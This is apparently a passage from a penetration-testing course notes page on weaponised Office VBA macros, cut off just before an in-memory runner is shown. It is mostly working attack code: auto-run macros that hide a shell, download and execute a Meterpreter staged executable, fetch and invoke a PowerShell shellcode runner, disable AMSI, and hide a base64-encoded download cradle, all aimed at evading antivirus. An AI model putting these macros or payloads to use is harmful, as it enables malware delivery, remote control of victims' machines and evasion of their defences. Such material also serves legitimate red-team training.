 **Using cmd.exe and using the VBA Shell function:**

Macro example:

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub

Sub MyMacro()
  Dim str As String
  str = "cmd.exe"
  Shell str, vbHide
End Sub
```

**Using Windows Script Host(WSH) to launch a cmd.exe:**

Macro example:

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub

Sub MyMacro()
  Dim str As String
  str = "cmd.exe"
  CreateObject("Wscript.Shell").Run str, 0
End Sub
```

**Let powershell help us:**

Downloading an executable, writing it to disk and then exectuting it(take into acount PowerShell Constrained Language Mode):

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\msfstaged.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
```
(note that in this script we also added a time delay, since the download time of our executable may vary)

Powershell shellcode runner using the Add-Type compilation method:

Take this PowerShell Script(save it as run.ps1), and then serve it through an HTTP server on port 80.

```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
      [DllImport("kernel32")]
      public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

      [DllImport("kernel32", CharSet=CharSet.Ansi)]
      public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

      [DllImport("kernel32.dll", SetLastError=true)]
      public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}

"@

Add-Type $Kernel32

#msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Macro to trigger the execution of our PowerShell shellcode runner:

```
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Using the Add-Type compilation, leaves so many artifacts behind, meaning that some AV/EDR could catch our malicious macro and stop its execution. Also another thing that we must take into account when
executing PowerShell code thourgh IEX(Invoke-Expression) is AMSI. So we first must bypass AMSI and then execute our PowerShell malicious code. To bypass the AMSI in powershell you can take any of this [methods](https://github.com/trike33/PEN-300-Code-Snippets/tree/main/AMSI%20Bypasses/PowerShell). Altough I prefer this [one](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/AMSI%20Bypasses/PowerShell/AmsiContext.ps1) due to its simplicity. 

This is how we would implement it in a real life scenario:

```
Amsi bypass(amsi.txt) file contents:
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

IEX(New-Object System.Net.WebClient).downloadString('http://192.168.1.1/run.ps1')

The run.ps1 file is a powershell shellcode runner. Due to the complexity of this technique, we will base64 encode our PowerShell download cradle ass follows:
~# pwsh
❯ pwsh
PowerShell 7.2.1
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

   A new PowerShell stable release is available: v7.3.4 
   Upgrade now, or check out the release page at:       
     https://aka.ms/PowerShell-Release?tag=v7.3.4       

Welcome to Parrot OS 

┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $text = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')"
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)                                   ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText = [Convert]::ToBase64String($bytes)                                           ┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$ $EncodedText                                                                              SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADUALwBhAG0AcwBpAC4AdAB4AHQAJwApAA==
┌[trike@root]-[11:11-12/07]-[/home/trike]
└╼$

Then we will embed the command to our macro:
Sub MyMacro()
  Dim str As String
  str = "powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADUALwBhAG0AcwBpAC4AdAB4AHQAJwApAA=="
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub

So if our attack was successful we must recieve first a request for the amsi.txt file and then, secondly a request for our run.ps1 file.
```

As previously mentioned the Add-Type compilation leaves many artifacts behind and those artifacts are written to disk. Since we want to be as stealthier as posible, we will use an in-memory powershell shellcode runner. Here is one: 
